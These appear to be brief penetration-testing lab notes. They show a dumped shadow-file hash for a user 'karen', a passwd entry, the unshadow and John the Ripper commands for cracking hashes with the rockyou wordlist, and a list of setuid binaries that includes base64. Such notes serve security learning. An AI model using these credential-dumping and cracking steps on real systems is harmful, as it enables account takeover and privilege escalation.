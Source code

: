 ```
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```

`ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash`

### password crack with john the ripper:
get passwd and shadow
`unshadow passwd.txt shadow.txt > passwords.txt`
`john --wordlist=~/resources/rockyou.txt passwords.txt`

### Setuid Bins:
```
/snap/core/10185/bin/mount
/snap/core/10185/bin/ping
/snap/core/10185/bin/ping6
/snap/core/10185/bin/su
/snap/core/10185/bin/umount
/snap/core/10185/usr/bin/chfn
/snap/core/10185/usr/bin/chsh
/snap/core/10185/usr/bin/gpasswd
/snap/core/10185/usr/bin/newgrp
/snap/core/10185/usr/bin/passwd
/snap/core/10185/usr/bin/sudo
/snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/10185/usr/lib/openssh/ssh-keysign
/snap/core/10185/usr/lib/snapd/snap-confine
/snap/core/10185/usr/sbin/pppd
/snap/core18/1885/bin/mount
/snap/core18/1885/bin/ping
/snap/core18/1885/bin/su
/snap/core18/1885/bin/umount
/snap/core18/1885/usr/bin/chfn
/snap/core18/1885/usr/bin/chsh
/snap/core18/1885/usr/bin/gpasswd
/snap/core18/1885/usr/bin/newgrp
/snap/core18/1885/usr/bin/passwd
/snap/core18/1885/usr/bin/sudo
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1885/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/base64
/usr/bin/su
/usr/bin/fusermount
/usr/bin/at
/usr/bin/mount
```
